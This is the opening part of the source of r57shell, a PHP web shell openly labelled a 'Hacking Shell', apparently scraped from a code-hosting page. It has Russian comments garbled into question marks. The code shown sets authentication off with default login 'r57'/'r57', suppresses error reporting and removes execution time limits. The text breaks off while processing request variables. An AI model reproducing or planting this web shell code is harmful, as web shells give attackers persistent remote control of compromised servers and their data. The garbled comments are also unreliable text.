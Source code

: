 ###
###  
###   
####
/*                                  
###    #   
###
###
###   #    
###
/*                                   
###   #    
###
###   #    
###
/*                                     
###                 
###
/*								WWW.R57.GEN.TR Hacking Shell Security
/*
/*
/*  r57shell // r57.gen.tr
/* ~~~ ????????? | Options  ~~~ */
// ????? ????? | Language
// $language='tur' - turkish (Turkce)
$language='tur';
// ?????????????? | Authentification
// $auth = 1; - ?????????????? ????????  ( authentification = On  )
// $auth = 0; - ?????????????? ????????? ( authentification = Off )
$auth = 0;

// ????? ? ?????? ??? ??????? ? ??????? (Login & Password for access)
// ?? ???????? ??????? ????? ??????????? ?? ???????!!! (CHANGE THIS!!!)
// ????? ? ?????? ????????? ? ??????? ????????? md5, ???????? ?? ????????? 'r57'
// Login & password crypted with md5, default is 'r57'
$name='r57'; // ????? ????????????  (user login)
$pass='r57'; // ?????? ???????????? (user password)
/******************************************************************************************************/
error_reporting(0);
set_magic_quotes_runtime(0);
@set_time_limit(0);
@ini_set('max_execution_time',0);
@ini_set('output_buffering',0);
$safe_mode = @ini_get('safe_mode');
$version = "1.0";
if(version_compare(phpversion(), '4.1.0') == -1)
 {
 $_POST   = &$HTTP_POST_VARS;
 $_GET    = &$HTTP_GET_VARS;
 $_SERVER = &$HTTP_SERVER_VARS;
 }
if (@get_magic_quotes_gpc())
 {
 foreach ($_POST as $k=&gt;$v)
  {
  $_POST[$k] = stripslashes($v);
  }
 foreach ($_SERVER as $k=&gt;$v)
  {
  $_SERVER[$k] = stripslashes($v);
